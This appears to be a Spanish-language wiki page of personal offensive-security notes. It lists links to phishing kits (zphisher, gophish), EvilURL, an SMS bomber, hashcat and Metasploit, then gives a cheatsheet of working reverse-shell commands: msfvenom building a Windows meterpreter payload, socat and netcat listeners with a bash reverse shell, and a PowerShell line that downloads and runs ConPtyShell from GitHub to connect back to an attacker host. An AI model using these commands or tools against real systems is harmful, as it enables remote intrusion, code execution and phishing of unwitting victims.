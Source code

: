 = Herramientas enlaces =
- [[https://github.com/htr-tech/zphisher|zphisher]]
- [[https://github.com/UndeadSec/EvilURL|EvilUrl]]
- [[https://github.com/gophish/gophish|gophish]]
- [[https://github.com/hashcat/hashcat|hashcat]]
- [[https://shop.hak5.org/|pagina comprar hardware hacking]]
- [[https://github.com/LionSec/katoolin|katoolin herramienta para añadir repositorios kali linux]]
- [[netcat]]
- [[https://github.com/FDX100/GOD-KILLERhttps://github.com/FDX100/GOD-KILLER|GOD-KILLER(SMS)]]
- [[https://computingforgeeks.com/install-metasploit-framework-on-debian/|instalación metasploit]]
= Cheatsheet =
=== Reverse shell meterpreter ===
{{{bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.16 LPORT=4444 -f exe > reverse.exe
}}}
=== Reverse shell socat ===
{{{bash
socat file:`tty`,raw,echo=0 TCP-L:4444
socat exec:bash,pty,stderr,setsid,sigint,sane tcp:192.168.0.16:4444
}}}
=== Reverse shell windows guapificado ===
- Servidor
{{{bash
stty raw -echo; (stty size; cat) | nc -lvnp 4444
}}}
- Cliente
{{{batch
powershell -c IEX(IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell 192.168.0.16 4444
}}}

